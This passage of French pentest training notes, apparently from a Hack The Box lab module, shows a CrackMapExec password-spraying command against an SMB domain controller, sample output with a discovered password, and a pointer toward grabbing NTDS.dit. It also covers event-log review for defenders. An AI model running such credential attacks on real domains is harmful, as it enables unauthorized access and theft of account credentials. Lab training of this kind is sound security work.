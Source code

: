 **Utiliser des outils automatisés peut nous faire gagner du temps lors de la création des listes.**

***

#### <mark style="color:orange;">**Lancer l'attaque avec CrackMapExec**</mark>

Nous pouvons lancer notre attaque contre le contrôleur de domaine cible à l'aide d'un outil tel que **CrackMapExec**.\
Nous pouvons l'utiliser avec le protocole SMB pour envoyer des requêtes de connexion au contrôleur de domaine cible.

{% code fullWidth="true" %}
```
mrroboteLiot@htb[/htb]$ crackmapexec smb 10.129.201.57 -u bwilliamson -p /usr/share/wordlists/fasttrack.txt
```
{% endcode %}

Exemple de sortie :

{% code fullWidth="true" %}
```
SMB         10.129.201.57     445    DC01           [*] Windows 10.0 Build 17763 x64 ...
[-] inlanefrieght.local\bwilliamson:winter2017 STATUS_LOGON_FAILURE
...
[+] inlanefrieght.local\bwilliamson:P@55w0rd!
```
{% endcode %}

**Explication :**

* CrackMapExec utilise SMB pour essayer de se connecter avec le nom d'utilisateur (-u) `bwilliamson` en utilisant une liste de mots de passe (-p) contenant des mots de passe courants.
* Si une politique de verrouillage de compte a été configurée par les administrateurs, cette attaque pourrait verrouiller le compte ciblé.

***

## <mark style="color:red;">**Event Logs from the Attack**</mark>

![Eventlogs from the attack](https://academy.hackthebox.com/storage/modules/147/events_dc.png)

Il peut être utile de savoir ce qu’un attaquant a pu laisser derrière lui. Avoir cette connaissance permet de formuler des recommandations de remédiation plus pertinentes et plus précieuses pour le client avec lequel nous travaillons.

Sur n’importe quel système d’exploitation Windows, un administrateur peut ouvrir l’**Observateur d’événements** et consulter les événements de **sécurité** pour voir précisément quelles actions ont été enregistrées. Cela peut guider les décisions visant à mettre en place des contrôles de sécurité plus stricts et aider dans toute enquête potentielle après une compromission.

Une fois que nous avons découvert certaines informations d’identification, nous pouvons alors tenter d’obtenir un accès à distance au **contrôleur de domaine** cible et de capturer le fichier **NTDS.dit**.
